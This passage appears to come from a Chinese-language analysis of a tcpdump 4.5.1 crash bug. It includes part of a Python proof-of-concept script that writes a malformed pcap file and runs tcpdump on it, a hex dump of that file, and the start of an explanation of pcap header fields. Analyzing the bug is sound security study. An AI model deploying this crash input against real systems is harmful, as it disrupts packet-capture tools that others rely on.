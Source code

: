 ```python
    buffer     +=  '\x06\xa0r\x7f\x00\x00\x01\x7f\x00\x00\xec\x00\x01\xe0\x1a'
    buffer     +=  "\x00\x17g+++++++\x85\xc9\x03\x00\x00\x00\x10\xa0&\x80\x18\'"
    buffer     +=  "xfe$\x00\x01\x00\x00@\x0c\x04\x02\x08\n', '\x00\x00\x00\x00"
    buffer     +=  '\x00\x00\x00\x00\x01\x03\x03\x04'


    with open('crash', 'w+b') as file:
        file.write(buffer)

    try:
        call(split(command))
        print("Exploit successful!             ")

    except:
        print("Error: Something has gone wrong!")


def main():

    print("Author:   David Silveiro                           ")
    print("   tcpdump version 4.5.1 Access Violation Crash    ")

    sleep(2)

    crash()


if __name__ == "__main__":
    main()
```

### 1.4 crash文件介绍

#### 1.4.1 文件内容

该文件可以通过运行上面的python文件获得。

```
0000h:	D4 C3 B2 A1 02 00 04 00 | 00 00 00 F5 FF 00 00 00
0010h:	49 00 00 00 E6 00 00 00 | 00 80 00 00 00 00 00 00
0020h:	08 00 00 00 00 3C 9C 37 | 40 FF 00 06 A0 72 7F 00
0030h:	00 01 7F 00 00 EC 00 01 | E0 1A 00 17 67 2B 2B 2B
0040h:	2B 2B 2B 2B 85 C9 03 00 | 00 00 10 A0 26 80 18 27
0050h:	78 66 65 24 00 01 00 00 | 40 0C 04 02 08 0A 27 2C
0060h:	20 27 00 00 00 00 00 00 | 00 00 01 03 03 04
```

#### 1.4.2 文件结构

- 24字节`pcap_file_header` 

- 16字节`pcap_pkthdr`
  - 8字节时间戳
  - 4字节`caplen`
  - 4字节`len`
